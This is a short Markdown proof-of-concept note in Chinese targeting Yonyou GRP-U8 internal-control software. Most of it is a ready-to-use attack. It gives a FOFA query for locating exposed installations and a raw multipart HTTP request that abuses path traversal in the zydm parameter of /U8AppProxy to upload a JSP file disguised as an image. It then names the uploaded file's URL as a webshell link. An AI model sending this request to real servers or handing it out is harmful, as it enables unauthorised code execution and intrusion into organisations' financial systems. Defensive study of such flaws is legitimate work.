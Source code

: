 ## 资产收集：
fofa：title="用友GRP-U8行政事业内控管理软件"
![](img/GRP-U8.png)
## POC：
```
POST /U8AppProxy?gnid=myinfo&id=saveheader&zydm=../../hello_U8 HTTP/1.1
Host: x.x.x.x
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Connection: close
Content-Length: 2781

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: image/png

<% out.println("0xold");%>
--59229605f98b8cf290a7b8908b34616b--
```
webshell链接地址：`http://x.x.x.x/hello_U8.jsp`
![](img/GRP-U8_POC.png)